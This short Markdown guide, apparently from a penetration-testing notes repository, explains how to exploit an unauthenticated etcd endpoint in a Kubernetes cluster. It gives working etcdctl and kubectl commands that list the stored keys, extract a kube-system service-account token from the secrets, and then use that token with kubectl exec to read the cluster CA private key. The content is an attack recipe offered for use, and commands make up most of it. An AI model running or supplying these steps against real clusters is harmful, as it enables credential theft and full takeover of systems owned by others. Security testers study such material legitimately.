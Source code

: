 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Set the ETCD environment variable `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only`
4. Then we'll need a service account token to authenticate to the cluster with
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`